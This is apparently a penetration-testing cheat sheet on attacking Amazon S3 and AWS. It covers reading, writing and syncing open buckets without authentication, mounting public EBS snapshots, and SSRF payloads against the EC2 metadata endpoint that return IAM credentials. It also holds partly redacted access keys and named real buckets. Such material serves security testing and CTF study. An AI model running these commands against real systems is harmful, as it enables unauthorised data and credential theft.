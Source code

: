# Amazon Bucket S3 AWS

## Summary

- [Tools](#tools)
- [AWS Configuration](#aws-configuration)
- [Open Bucket](#open-bucket)
- [Basic tests](#basic-tests)
	- [Listing files](#listing-files)
	- [Move a file into the bucket](move-a-file-into-the-bucket)
	- [Download every things](#download-every-things)
	- [Check bucket disk size](#check-bucket-disk-size)
- [AWS - Extract Backup](#aws---extract-backup)
- [Bucket juicy data](#bucket-juicy-data)

## Tools

- [Pacu - The AWS exploitation framework, designed for testing the security of Amazon Web Services environments](https://github.com/RhinoSecurityLabs/pacu)
- [Bucket Finder - Search for readable buckets and list all the files in them](https://digi.ninja/)
	```powershell
	wget https://digi.ninja/files/bucket_finder_1.1.tar.bz2 -O bucket_finder_1.1.tar.bz2
	./bucket_finder.rb my_words
	./bucket_finder.rb --region ie my_words
		US Standard         = http://s3.amazonaws.com
		Ireland             = http://s3-eu-west-1.amazonaws.com
		Northern California = http://s3-us-west-1.amazonaws.com
		Singapore           = http://s3-ap-southeast-1.amazonaws.com
		Tokyo               = http://s3-ap-northeast-1.amazonaws.com

	./bucket_finder.rb --download --region ie my_words
	./bucket_finder.rb --log-file bucket.out my_words
	```
- [Boto3 - Amazon Web Services (AWS) SDK for Python](https://boto3.amazonaws.com/v1/documentation/api/latest/index.html)
	```python
	import boto3
	# Create an S3 client
	s3 = boto3.client('s3',aws_access_key_id='AKIAJQDP3RKREDACTED',aws_secret_access_key='igH8yFmmpMbnkcUaCqXJIRIozKVaREDACTED',region_name='us-west-1')

	try:
		result = s3.list_buckets()
		print(result)
	except Exception as e:
		print(e
	```

## AWS Configuration

Prerequisites, at least you need awscli

```bash
sudo apt install awscli
```

You can get your credential here https://console.aws.amazon.com/iam/home?#/security_credential
but you need an aws account, free tier account : https://aws.amazon.com/s/dm/optimization/server-side-test/free-tier/free_np/

```javascript
aws configure
AWSAccessKeyId=[ENTER HERE YOUR KEY]
AWSSecretKey=[ENTER HERE YOUR KEY]
```

```javascript
aws configure --profile nameofprofile
```

then you can use *--profile nameofprofile* in the aws command.

Alternatively you can use environment variables instead of creating a profile.

```bash
export AWS_ACCESS_KEY_ID=ASIAZ[...]PODP56
export AWS_SECRET_ACCESS_KEY=fPk/Gya[...]4/j5bSuhDQ
export AWS_SESSION_TOKEN=FQoGZXIvYXdzE[...]8aOK4QU=
```

## Open Bucket

By default the name of Amazon Bucket are like http://s3.amazonaws.com/[bucket_name]/, you can browse open buckets if you know their names

```bash
http://s3.amazonaws.com/[bucket_name]/
http://[bucket_name].s3.amazonaws.com/
http://flaws.cloud.s3.amazonaws.com/
```

Their names are also listed if the listing is enabled.

```xml
<ListBucketResult xmlns="http://s3.amazonaws.com/doc/2006-03-01/">
<Name>adobe-REDACTED-REDACTED-REDACTED</Name>
```

Alternatively you can extract the name of inside-site s3 bucket with `%C0`. (Trick from https://twitter.com/0xmdv/status/1065581916437585920)

```xml
http://example.com/resources/id%C0

eg: http://redacted/avatar/123%C0
```

## Basic tests

### Listing files

```bash
aws s3 ls s3://targetbucket --no-sign-request --region insert-region-here
aws s3 ls  s3://flaws.cloud/ --no-sign-request --region us-west-2
```

You can get the region with a dig and nslookup

```bash
$ dig flaws.cloud
;; ANSWER SECTION:
flaws.cloud.    5    IN    A    52.218.192.11

$ nslookup 52.218.192.11
Non-authoritative answer:
11.192.218.52.in-addr.arpa name = s3-website-us-west-2.amazonaws.com.
```

### Move a file into the bucket

```bash
aws s3 cp local.txt s3://some-bucket/remote.txt --acl authenticated-read
aws s3 cp login.html s3://$bucketName --grants read=uri=http://acs.amazonaws.com/groups/global/AllUsers
```

```bash
aws s3 mv test.txt s3://hackerone.marketing
FAIL : "move failed: ./test.txt to s3://hackerone.marketing/test.txt A client error (AccessDenied) occurred when calling the PutObject operation: Access Denied."

aws s3 mv test.txt s3://hackerone.files
SUCCESS : "move: ./test.txt to s3://hackerone.files/test.txt"
```

### Download every things

```powershell
aws s3 sync s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/ . --no-sign-request --region us-west-2
```

### Check bucket disk size

Use `--no-sign` for un-authenticated check.

```powershell
aws s3 ls s3://<bucketname> --recursive  | grep -v -E "(Bucket: |Prefix: |LastWriteTime|^$|--)" | awk 'BEGIN {total=0}{total+=$3}END{print total/1024/1024" MB"}'
```

## AWS - Extract Backup

```powershell
aws --profile flaws sts get-caller-identity
"Account": "XXXX26262029",

aws --profile flaws  ec2 describe-snapshots --owner-id XXXX26262029 --region us-west-2    
"SnapshotId": "snap-XXXX342abd1bdcb89",

Create a volume using snapshot
aws --profile swk ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id  snap-XXXX342abd1bdcb89
In Aws Console -> EC2 -> New Ubuntu
chmod 400 YOUR_KEY.pem
ssh -i YOUR_KEY.pem  ubuntu@ec2-XXX-XXX-XXX-XXX.us-east-2.compute.amazonaws.com

Mount the volume
lsblk
sudo file -s /dev/xvda1
sudo mount /dev/xvda1 /mnt
```

## Bucket juicy data

Amazon exposes an internal service every EC2 instance can query for instance metadata about the host. If you found an SSRF vulnerability that runs on EC2, try requesting :

```powershell
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/user-data/
http://169.254.169.254/latest/meta-data/iam/security-credentials/IAM_USER_ROLE_HERE will return the AccessKeyID, SecretAccessKey, and Token
http://169.254.169.254/latest/meta-data/iam/security-credentials/PhotonInstance
```

For example with a proxy : http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data/iam/security-credentials/flaws/



## References

* [There's a Hole in 1,951 Amazon S3 Buckets - Mar 27, 2013 - Rapid7 willis](https://community.rapid7.com/community/infosec/blog/2013/03/27/1951-open-s3-buckets)
* [Bug Bounty Survey - AWS Basic test](https://twitter.com/bugbsurveys/status/859389553211297792)
* [flaws.cloud Challenge based on AWS vulnerabilities - by Scott Piper of Summit Route](http://flaws.cloud/)
* [flaws2.cloud Challenge based on AWS vulnerabilities - by Scott Piper of Summit Route](http://flaws2.cloud)
* [Guardzilla video camera hardcoded AWS credential - 0dayallday.org](https://www.0dayallday.org/guardzilla-video-camera-hard-coded-aws-credentials/)
